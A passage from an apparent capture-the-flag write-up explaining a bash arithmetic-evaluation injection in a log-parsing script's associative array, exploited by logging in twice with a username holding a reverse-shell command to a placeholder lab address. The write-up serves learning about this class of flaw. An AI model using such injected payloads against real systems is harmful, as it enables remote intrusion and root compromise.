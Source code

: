 Just like that we have root!
# Beyond Root
## Root 1 liner... 

> Thanks to `@jkr` for discussing this with me!
{:.info}

There's another vulnerability in the script, here's a snippet with added comments to explain it.
```bash
# This creates an associative array(essentially a key:value array)
declare -A successful_users  # Associative array: username -> count
# This checks if `username` already has an array element associated with it
        if [ -n "${successful_users[$username]+_}" ]; then
# This just increments the count value of the array
            successful_users[$username]=$((successful_users[$username] + 1)) # <--------- this is vulnerable
        else
# this sets the base value of count to 1
            successful_users[$username]=1
        fi
```

According to [Vidar's blog](https://www.vidarholen.net/contents/blog/?p=716)

> The shell evaluates values in an arithmetic context in several syntax constructs where the shell expects an integer. This includes: `$((here))`, `((here))`, `${var:here:here}`, `${var[here]}`, `var[here]=..` and on either side of any `[[` numerical comparator like `-eq`, `-gt`, `-le` and friends.

Therefore based on the snippet and shell evaluation mentioned above our attack path is to poison the logs through username.
We need to input the same username twice, here's why:
1. The first username is there to create the array element.
2. The second username is there to trigger the shell in the arithmetic context.

So if we simply login with the following username twice:

```bash
`bash -i >& /dev/tcp/10.10.X.X/9001 0>&1`
```

It doesn't matter that we're told we have `Bad Credentials`

![eureka-1745818702077.png](/assets/img/img_eureka/eureka-1745818702077.png)
